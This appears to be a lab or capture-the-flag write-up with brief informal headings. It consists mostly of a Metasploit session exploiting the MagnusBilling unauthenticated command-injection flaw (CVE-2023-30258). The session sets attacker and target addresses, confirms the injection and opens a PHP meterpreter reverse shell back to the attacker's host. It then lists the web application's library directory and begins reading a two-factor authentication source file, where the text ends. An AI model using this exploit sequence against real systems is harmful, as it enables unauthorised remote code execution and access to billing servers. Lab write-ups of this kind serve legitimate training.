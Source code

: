 ### starting attacking

```jsx

View the full module info with the info, or info -d command.

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > 
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST 10.23.89.97
LHOST => 10.23.89.97
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOST 10.10.201.100
RHOST => 10.10.201.100
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
[*] Started reverse TCP handler on 10.23.89.97:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.201.100:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 8 seconds.
[*] Elapsed time: 8.33 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.10.201.100
[+] Deleted KfUZjSCIiR.php
[*] Meterpreter session 1 opened (10.23.89.97:4444 -> 10.10.201.100:57534) at 2025-04-18 13:27:24 -0400

meterpreter >
```

### we find the google auth… file and lat as check it out

```jsx

meterpreter > ls
Listing: /var/www/html/mbilling/lib
===================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  GoogleAuthenticator
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  PlacetoPay
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  anet
100700/rwx------  64    fil   2024-02-27 14:44:28 -0500  composer.json
100700/rwx------  2459  fil   2024-02-27 14:44:28 -0500  composer.lock
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  gerencianet
040755/rwxr-xr-x  4096  dir   2025-04-18 13:27:23 -0400  icepay
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  mercadopago
040700/rwx------  4096  dir   2024-02-27 14:44:28 -0500  stripe

meterpreter > cd GoogleAuthenticator
meterpreter > ls
Listing: /var/www/html/mbilling/lib/GoogleAuthenticator
=======================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100700/rwx------  6685  fil   2024-02-27 14:44:28 -0500  GoogleAuthenticator.php

meterpreter > cat GoogleAuthenticator.php
<?php

/**
 * PHP Class for handling Google Authenticator 2-factor authentication
 *
 * @author Michael Kliewe
 * @copyright 2012 Michael Kliewe
```
